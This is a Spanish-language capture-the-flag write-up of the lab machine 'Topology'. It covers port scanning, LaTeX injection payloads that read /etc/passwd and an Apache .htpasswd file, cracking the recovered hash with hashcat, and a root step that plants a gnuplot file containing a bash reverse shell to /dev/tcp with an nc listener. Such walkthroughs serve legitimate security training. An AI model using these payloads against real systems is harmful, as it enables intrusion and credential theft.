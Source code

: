 ```yaml
---
title: "Topology"
date: "2025-02-21T17:00:00-05:00"
type: "maquinas"
draft: false
tags: ["crontabs", "linux", "latex", "sudo", "subdominio", "file-read", "apache-server", "pspy", "gnuplot"]
---
```


### Descripción:
Una máquina en la que tenemos que hacer una inyección LaTeX para poder leer archivos y así conseguir el hash del usuario, para luego, mediante una tarea recurrente, ganar root.

# Enumeración

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP -oG allPorts
```

- `-p-` Escanea todos los puertos `1-65535` .
- `—open` Solo muestra los puertos que estén abiertos.
- `-sS` Stealt scan, cambia el modo de escane haciendo que no se complete el hanshake.
- `—min-rate 5000` Como mínimo va a enviar 5000 paquetes por segundo.
- `-vvv` Aumenta la verbosidad, mostrando la máxima informacion posible mientras se ejecuta.
- `-n` Desactiva la resolucion `DNS`; no va a tratar de resolver los nombres de dominio.
- `-Pn` Nmap por defecto manda un ping a la IP; esto lo desactiva.
- `-oG allPorts` Guarda el escaneo en formato `oG` en el archivo llamado `allPorts`.

Este escaneo nos dio dos puertos: el 22 y el 80. Vamos a hacer un escaneo más exhaustivo a estos puertos.

```bash
sudo nmap -sCV -p22,80 IP -A -oN target
```
- `-sCV` Esto ejecuta una serie de scripts predeterminados de Nmap para obtener información adicional sobre los servicios que se encuentran abiertos, como versiones de servicios, detalles del sistema operativo, vulnerabilidades conocidas y la versión exacta. 
- `-p22, 80` Especifica qué puertos se van a escanear.
- `-A` Activa el descubrimiento de sistema operativo, la deteccion de version, script scanning y hace un traceroute.

<a href="https://imgur.com/u8zXpKh"><img src="https://i.imgur.com/u8zXpKh.png" title="source: imgur.com" /></a>

La pagina HTTP que está en el puerto 80 usa Apache 2.4.41.

## Puerto 80

<a href="https://imgur.com/P2kGwLQ"><img src="https://i.imgur.com/P2kGwLQ.png" title="source: imgur.com" /></a>

Al momento de entrar al link `“Latex Equation Generator”` veremos que es un subdmonio por lo que tendremos que agregarlo al `/etc/hosts` para que nos muestre lo siguiente.

<a href="https://imgur.com/T7QA4dq"><img src="https://i.imgur.com/T7QA4dq.png" title="source: imgur.com" /></a>

Algo que podemos tratar es listar los archivos dentro de este subdmonio por lo que vamos a ingresar a la siguiente [URL](http://latex.topology.htb/) dejando el ultimo `/` .

<a href="https://imgur.com/aTp681K"><img src="https://i.imgur.com/aTp681K.png" title="source: imgur.com" /></a>

Revisando los archivos, lo único útil está en `equationtest.tex` ya que nos muestra cómo estan tratando la entrada Latex la web.

```latex
\documentclass{standalone}
\input{header}
\begin{document}

$ \int_{a}^b\int_{c}^d f(x,y)dxdy $

\end{document}
```

Podemos observar que la entrada está entre los signos de dólar. Leyendo la página, nos dicen que LaTeX está en el modo “[inline math](https://www.physicsread.com/latex-math-mode/)”. Buscando acerca de este modo, nos encontramos con que hay tres formas de tratarlo:

1. $ . . .$
2. \begin{math} . . . \end{math}
3. \( . . . \)

# Foothold

Por lo que ahora sabemos porque está entre esos signos y confirmamos que la entrada va a estar así planeando una inyección.

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)

Vamos a tratar de empezar a leer archivos del sistema con la inyección de codigo.

```latex
$ \lstinputlisting{/etc/passwd} $
```

<a href="https://imgur.com/eFdUTzY"><img src="https://i.imgur.com/eFdUTzY.png" title="source: imgur.com" /></a>

Una vez confirmamos que podemos leer archivos vamos a empezar a leer archivos de configuración que nos permitán ingresar al sistema.

```latex
$ \lstinputlisting{/etc/apache2/sites-enabled/000-default.conf} $
```

En este archivo encontramos varios directorios entre ellos uno que pertence al subdominio `dev.topology.htb` lo agregamos al `/etc/hosts` y al ingresar nos pide una contraseña.

Vamos a listar archivos de configuracion por defecto de apache sobre el directorio correspondiente a este subdominio.

```latex
$ \lstinputlisting{/var/www/dev/.htaccess} $
```

<a href="https://imgur.com/pH0zQXZ"><img src="https://i.imgur.com/pH0zQXZ.png" title="source: imgur.com" /></a>

Por ultimo vamos a listar este archivo.

```latex
$ \lstinputlisting{/var/www/dev/.htpasswd} $
```

Nos vamos a encontrar un usuario junto con su hash, vamos a copiarlo y guardarlo en un archivo `.txt` para hacerle fuerza bruta con `hashcat`:

```python
hashcat hash.txt --wordlist /usr/share/wordlist/rockyou.txt --user
```

Esto nos dara su contraseña para iniciar sesion mediante ssh.

# Root

## Enumeración

Primero vamos a hacer el tratamiento basico de la shell:

```bash
export TERM=xterm
```

Listo ahora vamos a tratar de listar archivos y permisos a ver si encontramos algo, pero nos daremos cuenta rapidamente que no tenemos permitido el uso de sudo ni ningun permiso extraño por lo que lo unico que puede tener algo interesante son las crontab pero no nos permiten listarlas entonces vamos a usar la herramienta [Pspy](https://github.com/DominicBreuker/pspy/tree/master).

```bash
#Maquina atacante 
python3 -m http.server 80

#Maquina victima
wget IP/pspy64
chmod +x pspy64 
./pspy64
```

Luego de ejecutar el ultimo comando si esperamos un rato podremos ver que hay una script que se ejecuta cada minuto `/opt/gnuplot/getdata.sh` .

<a href="https://imgur.com/9ry28PV"><img src="https://i.imgur.com/9ry28PV.png" title="source: imgur.com" /></a>

Si analizamos esta salida nos daremos cuenta que lo que se esta haciendo cada minuto es buscar en el directorio `/opt/gnuplot/` todos los archivos con extension `plt` y los ejecuta.

Si tratamos de ingresar al directorio no nos lo permite pero en cambio si creamos un archivo y lo movemos a esa direccion no habra ningun conflicto. Buscando escalaciones de privilegios con `gnuplot` que es el binario que se ejecuta encontramos la siguiente [Exploit](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/gnuplot-privilege-escalation).

```bash
#Maquina atacante
nc -lvnp 4444

#Maquina victima
nano rev.plt

system "bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'"

mv rev.plt /opt/gnuplot/
```

Con esto tendremos acceso como root y habremos completado la maquina.
